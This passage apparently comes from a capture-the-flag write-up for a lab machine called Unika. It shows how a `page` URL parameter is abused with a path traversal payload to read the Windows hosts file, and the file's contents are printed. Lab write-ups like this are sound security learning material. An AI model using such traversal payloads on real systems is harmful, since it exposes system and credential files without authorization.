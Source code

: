 ![unika](/img/tier1/unika.png)

After clicking around, something stood out after changing the language to French - the url changed to `http://unika.htb/index.php?page=french.html`. `page` is calling a file on the server, but can't we just change this file to be something else? Say, `/etc/hosts`:

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;:arrow_down::arrow_down::arrow_down:
``` {linenos=false}
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft 
TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # 
entry should be kept on an individual line. The IP address should # be placed in the first
column followed by the corresponding host name. # The IP address and the host name should be 
separated by at least one # space. # # Additionally, comments (such as these) may be inserted 
on individual # lines or following the machine name denoted by a '#' symbol. # # For example:
# # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host #
localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost 
```
